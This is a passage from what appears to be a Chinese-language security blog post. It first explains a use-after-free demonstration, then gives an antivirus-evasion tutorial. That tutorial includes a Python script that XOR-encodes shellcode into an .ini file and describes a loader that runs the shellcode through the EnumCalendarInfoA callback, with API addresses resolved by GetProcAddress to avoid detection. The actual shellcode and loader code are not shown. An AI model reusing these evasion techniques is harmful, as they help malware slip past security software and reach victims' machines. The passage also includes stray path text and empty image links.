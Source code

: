 
结果如下图：

![]()

指针p1指向了一块大小为10字节的堆空间，并存入了一个字符串“hello”，随即释放了该堆空间，但并未将指针p1指向null，这将导致指针p1仍然能够使用。

紧接着指针p2指向了一块新申请为10字节的堆空间，并存入了一个字符串“world”，此时打印p1，p2的地址和字符串，发现p1和p2地址相同，并且此时能通过p1打印出“world”。

在free一块内存后，接着申请大小相同的一块内存，操作系统会将刚刚free掉的内存再次分配。

通过p2能够操作p1，如果之后p1继续被使用，则可以达到通过p2修改程序功能等目的，这也是UAF(use after free)的含义

###  **3.**

![]()  
加密代码如下：

    
    
    print("| |__  _   _ _ __   __ _ ___ ___")  
    print("| '_ \| | | | '_ \ / _` / __/ __|")  
    print("| |_) | |_| | |_) | (_| \__ \__ \\")  
    print("|_.__/ \__, | .__/ \__,_|___/___/")  
    print("       |___/|_|")  
    shellcode_=b""  #shellcode放在这里  
    shellcode=[]  
    for i in shellcode_:  
        shellcode.append(str(i^1024))  
    shellcode=",".join(shellcode).split(",")  
    file=open("sc.ini","w")  
    file.write("[key]\n")  
    n=0  
    for i in shellcode:  
        file.write(f"{n}={i}\n")  
        n+=1  
    file.close()  
      
    

这里就是通过for循环遍历shellcode，然后异或生成加密后的shellcode最后打卡sc.ini文件写入shellcode（这里师傅们能看懂吧？）

![]()  
脚本执行完后ini配置文件长这样，等号后面的值就是我们把shellcode异或加密后的整数值

上面是简单的加密方式，师傅们可以自己魔改哦，像ctf密码学中的凯撒密码和隐写这类的都可以用到免杀中

接下来写加载器加载shellcode就行了，这里我用的回调函数执行shellcode，api是EnumCalendarInfoA的第一个参数

![]()

![]()  
这里调用api我都是利用GetProcAddress这个api获取函数地址，函数指针进行调用的
**（笔者我这里开始是想利用IAT表获取GetProcAddress函数地址，再利用函数指针调用GetProcAddress获取其他函数的地址，但我这里获取GetProcAddress地址调用后程序会报错）
，所以我是用的GetProcAddress函数获取getprocaddress地址（套娃，不过没啥用）
